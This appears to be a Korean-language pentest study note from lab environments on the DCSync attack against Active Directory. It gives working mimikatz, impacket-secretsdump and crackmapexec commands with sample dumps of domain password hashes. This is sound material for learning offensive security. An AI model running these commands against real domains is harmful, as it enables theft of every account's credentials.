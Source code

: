 사용자에게 Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set 권한이 있어야 함.

[+] hackthebox 에서 찾은 결과:

PowerView.ps1 의 다음 커맨드로 찾았을 때, ObjectAceType이 DS-Replication-Get_changes-All 권한이 있으면 가능
```powershell
powershell Get-ObjectACL "DC=htb,DC=local" -ResolveGUIDs | ? {
($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match
'Replication-Get') }
```

디폴트로 **Domain Admins, Enterprise Admins, Administrators** 그룹의 구성원에게 이러한 권한이 할당 됨.

DC Sync 는
**→ mimikatz (win)**
**→ impacket-secretsdump (kali)**
**→ crackmapexec (kali)**
로 할 수 있다.

### mimikatz
```powershell
# 프리빌리지 debug 필요 x
lsadump::dcsync /user:corp\\Administrator
#...
#Credentials:
#  **Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e**
#...
```

### impacket-secretsdump
```powershell
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\\!"@192.168.50.70
#Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

#[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
#**[*] Using the DRSUAPI method to get NTDS.DIT secrets**
#dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
#[*] Kerberos keys grabbed
#dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
#dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
#dave:des-cbc-md5:1a329b4338bfa215
#[*] Cleaning up...

```

### crackmapexec
```powershell
└─# cme smb 192.168.40.150 -u administrator -p 'Password123!' --ntds                                                                                  
SMB         192.168.40.150  445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:choi.local) (signing:False) (SMBv1:
True)                                                                                                                                                 
SMB         192.168.40.150  445    DC01             [+] choi.local\\administrator:Password123! (Pwn3d!)                                         
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...                    
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::          
SMB         192.168.40.150  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::     
SMB         192.168.40.150  445    DC01             choi.local\\low:1601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::    
SMB         192.168.40.150  445    DC01             sqladmin:1603:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::             
SMB         192.168.40.150  445    DC01             choi.local\\sqldude:1604:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             choi.local\\linuxadmin:1605:aad3b435b51404eeaad3b435b51404ee:f7381d09866c0d678b836bf38b37122a:::   
SMB         192.168.40.150  445    DC01             choi.local\\edward:1608:aad3b435b51404eeaad3b435b51404ee:2d769326bbe2798417b8fb6091f3857e:::
SMB         192.168.40.150  445    DC01             choi.local\\da:1618:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[ . . . ]
```

